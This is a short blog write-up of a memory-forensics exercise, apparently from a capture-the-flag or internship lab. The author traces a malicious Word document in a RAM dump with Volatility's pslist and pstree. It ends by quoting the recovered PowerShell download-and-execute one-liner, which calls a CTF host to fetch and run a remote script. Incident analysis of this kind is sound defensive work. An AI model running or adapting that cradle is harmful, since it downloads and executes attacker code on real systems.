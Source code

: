 ```yaml
---
layout: post
title: "Memory Analysis"
date: 2025-05-23 11:00:00 +0800
categories: [intern, forensic, memory analysis]
tags: [writeup,forensics, memory,intern]
image: https://miro.medium.com/v2/resize:fit:786/format:webp/1*RNKFWrN0zhqGg4c8LQaz6A.png
---
```


# 🧠 ***Memory Analysis***

Analysis on a memdump file which is a snapshot of the memory systems RAM on the current time.

Analyzed the memdump file using votality workbech. Using the pslist command to list all the process list of the file at the current time of the state of the system.


<figure>
  <img src="https://miro.medium.com/v2/resize:fit:786/format:webp/1*RNKFWrN0zhqGg4c8LQaz6A.png" alt="Process List" style="width:100%;">
  <figcaption style="text-align:center;"><em>The process list</em></figcaption>
</figure>

From the list the `WINWORD.exe` file seems suspicious. This is because after the `WINWORD.exe` file it executes a cmd.exe which is not usual for a word apps to execute cmd.

Use pstree command to view the hierachal process of the `WINWORD.exe`. To see the flow of the exe file by determining which is the parents and child process.

<figure>
  <img src="https://miro.medium.com/v2/resize:fit:786/format:webp/1*yoVIEC9HxsvFUuc_DAne3w.png" alt="Process List" style="width:100%;">
  <figcaption style="text-align:center;"><em>process tree winword.exe</em></figcaption>
</figure>

<figure>
  <img src="https://miro.medium.com/v2/resize:fit:786/format:webp/1*ray0zD1oDdCO70RwmKROAw.png" alt="Process List" style="width:100%;">
  <figcaption style="text-align:center;"><em>process tree kitty.exe</em></figcaption>
</figure>

Based on the process tree `WINWORD.exe` is the parent process. When executed it will spawn another process `cmd.exe` (child process).

<figure>
  <img src="https://miro.medium.com/v2/resize:fit:1100/format:webp/1*D6eIK7w6ZIe8sOsOD4Aq4g.png" alt="Process List" style="width:100%;">
</figure>

The `WINWORD.exe` will open a file `financial-rep.docx`. Then it will open a cmd to execute power shell command to download a ps1 power shell script file.

``` powershell
IEX(New-Object Net.WebClient).DownloadString
('http://ticket.itrexc2023.capturextheflag.io:8080/cat.ps1')

```
